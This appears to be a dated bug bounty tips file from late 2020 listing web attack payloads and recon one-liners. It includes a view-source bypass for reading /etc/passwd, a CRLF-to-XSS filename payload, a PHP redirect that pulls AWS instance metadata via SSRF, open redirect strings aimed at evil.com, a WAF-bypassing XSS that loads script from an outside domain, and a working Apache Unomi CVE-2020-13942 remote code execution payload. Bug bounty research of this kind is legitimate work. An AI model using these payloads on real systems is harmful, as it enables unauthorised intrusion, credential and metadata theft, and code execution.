 # Bug Bounty Tips File -4
📅 06-Nov-2020
## Browser-Based application LFI
`file:///etc/passwd` blacklisted? Use `"view-source:file:///etc/passwd"`
"view-source" is often forgotten by developers in blacklists.
## bypassing file content restrictions:
in some cases you can do a crlf injection via filename
`x.png%22%0d%0a%0d%0a%0d%0a<script>alert(1)</script>`
***this will cause Content-Disposition to throw its content into the file***

📅 10-Nov-2020
## Race Condition
***https://hackerone.com/reports/994051***
## Host Header Injection
It was blocking all the urls except for the websites hosted with the same provider. In this case Fastly. 
```js
host : http://bbc.com
```
**worked**                    
Now attacker can register a domain with Fastly and use HHI to ATO using forgot password ! 

📅 11-Nov-2020
## SSRF Bypass via 303 redirect
*Host the following code in your server and use your server ip to ping at where you feel ssrf is found*
```php
<?php header('Location: http://169.254.169.254/latest/meta-data/', TRUE, 303); ?>
```
***Note :*** This code is to fetch aws metadata you can edit the location to your target location. For more info **https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb** 

📅 16-Nov-2020
## Check for open redirect,ssrf with waybackurls
```sh
waybackurls target[.]com | grep ‘http%\|https%'
```
***Note : You can replace the URLs you find with yours and hope for an open redirect,ssrf or something else. You can grep out analytic stuff with grep -v. If your target has something with OAuth with a redirect_uri target/* that's an easy ATO***
## Searching for endpoints, by apks
```sh
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|http://schemas.android\|google\|http://goo.gl"
```
## Fuzz all js files from the target
```sh
xargs -P 500 -a domain -I@ sh -c 'nc -w1 -z -v @ 443 2>/dev/null && echo @' | xargs -I@ -P10 sh -c 'gospider -a -s "https://@" -d 2 | grep -Eo "(http|https)://[^/\"].*\.js+" | sed "s#\] \- #\n#g" | anew'
```

📅 17-Nov-2020
## OPen redirect Bypass payloads
```text
http:http:evil[.]com
http:/evil%252ecom
///www.x.com@evil.com
```
## Recent XSS triple bypass surgery:
```js
DOM XSS via $.append(<PAYLOAD>)
1. WAF: <script> blocked but <script/a> isn’t (lol)
2. All uppercased: Instead of direct JS (ALERT isn’t valid), use <script/src>
3. 20 char limit(!!): Used my 5 char domain <script/src=//ab.cd> 
```
***thanks to [@spaceracoon](https://twitter.com/spaceraccoonsec)***
## Bug bounty cheatsheet
> ***https://github.com/EdOverflow/bugbounty-cheatsheet***
## Blind SQL Injection
> ***https://hackerone.com/reports/1034625***

📅 20-Nov-2020
## CVE-2020-13942 Apache Unomi Remote Code Execution
```json
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"}
```
- [Proof of Concept](img/-%20CVE-2020-13942%20Apache%20Unomi%20Remote%20Code%20Execution__PoC__%7B_filters___%7B_id_%20_%20_py.mp4)

📅 22-Nov-2020
## 🔥Using dnsgen to find new domains from a list of domains, I used amass on the list (army1).
🔥 xargs -a army1 -I@ sh -c 'echo @' | dnsgen - | httpx -silent -threads 1000 🔥
#Bugbounty #bugbountytips #recon #github #KingOfBugBountyTips
## SSTI
If your username and last name fields are vulnerable to HTML injection, try SSTI vulnerability too! 
SSTI can be made with RCE. This is a typical SSTI Payload.
`{{ '7'*7 }}`
We need to identify what template engine is used in the back-end as well to exploit further to get RCE.
- `if {{ 7*'7′ }} -> 7777777` -> Its Jinja2 Engine
- `if {{ 7*'7′ }} -> 49` -> Its Twig Engine
#bugbountytips
